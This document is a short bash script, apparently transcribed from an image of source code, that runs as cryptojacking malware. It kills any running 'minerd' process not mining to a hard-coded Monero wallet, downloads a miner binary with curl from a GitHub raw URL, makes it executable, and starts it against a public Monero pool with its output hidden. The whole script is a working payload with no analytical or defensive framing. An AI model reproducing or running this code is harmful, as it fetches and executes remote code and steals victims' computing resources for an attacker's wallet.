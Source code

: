 #!/bin/bash
Jin=`ps -ef|grep minerd|grep -v grep|wc -l`
Pid=`ps -ef|grep minerd|grep -v grep|awk '{print $2}'`
Qianbao=`ps -ef|grep minerd|grep -v grep|grep "46SDR76rJ2J6MtmP3ZZKi9cEA5RQCrYgag7La3CxEootQeAQULPE2CHJQ4MRZ5wZ1T73Kw6Kx4Lai2dFLAacjerbPzb5Ufg"|wc -l`
if [ $Jin -eq  1 ];then
   if [ $Qianbao -eq 0 ];then
        kill -9 $Pid
        cd /opt 
   if [ ! -f minerd ];then
        curl -L https://raw.githubusercontent.com/18markdye/test/master/minerd -o minerd \
   &&   chmod +x minerd
  fi
      /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:3333 -u 46SDR76rJ2J6MtmP3ZZKi9cEA5RQCrYgag7La3CxEootQeAQULPE2CHJQ4MRZ5wZ1T73Kw6Kx4Lai2dFLAacjerbPzb5Ufg -p x -R 1 &>>/dev/null
 fi
fi
if  [ $Jin -ne  1 ];then
   kill -9 $Pid
        cd /opt 
   if [ ! -f minerd ];then
        curl -L https://raw.githubusercontent.com/18markdye/test/master/minerd -o minerd \
   &&   chmod +x minerd
   fi
      /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:3333 -u 46SDR76rJ2J6MtmP3ZZKi9cEA5RQCrYgag7La3CxEootQeAQULPE2CHJQ4MRZ5wZ1T73Kw6Kx4Lai2dFLAacjerbPzb5Ufg -p x -R 1 &>>/dev/null
fi
